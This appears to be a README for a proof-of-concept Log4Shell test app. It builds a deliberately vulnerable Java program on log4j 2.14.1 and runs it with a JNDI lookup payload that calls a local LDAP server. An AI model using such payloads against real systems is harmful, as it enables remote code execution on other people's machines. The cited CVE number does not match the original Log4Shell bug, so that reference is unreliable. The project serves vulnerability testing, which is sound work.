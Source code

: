 # Log4Shell vulnerable app

This directory has a minimal proof-of-concept for the "Log4Shell" log4j remote code execution vulnerability
([CVE-2021-44832](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-44832)). The vulnerable Java code
simply creates a log4j logging instance and logs every command line argument string in `argv` as an error.
It uses log4j version 2.14.1.

## Compiling the vulnerable app

```shell
make log4shell-poc.jar
```

This JAR file contains the vulnerable app, but not log4j. This enables you to test it against different 
versions of log4j.

## Running the vulnerable app

```shell
java -cp log4shell-poc.jar:lib/log4j-api-2.14.1.jar:lib/log4j-core-2.14.1.jar "About to pwn" '${jndi:ldap://127.0.0.1:1337/pwn}'
```
or from the Makefile:
```shell
make run
```

## Testing the vulnerability

The [test_exploit.py](test_exploit.py) script runs the app with a payload that exploits the bug. The
script will exit with code zero if the bug was confirmed exploited.

You can run the script directly with `python3` or do so from the Makefile:
```shell
make test
```
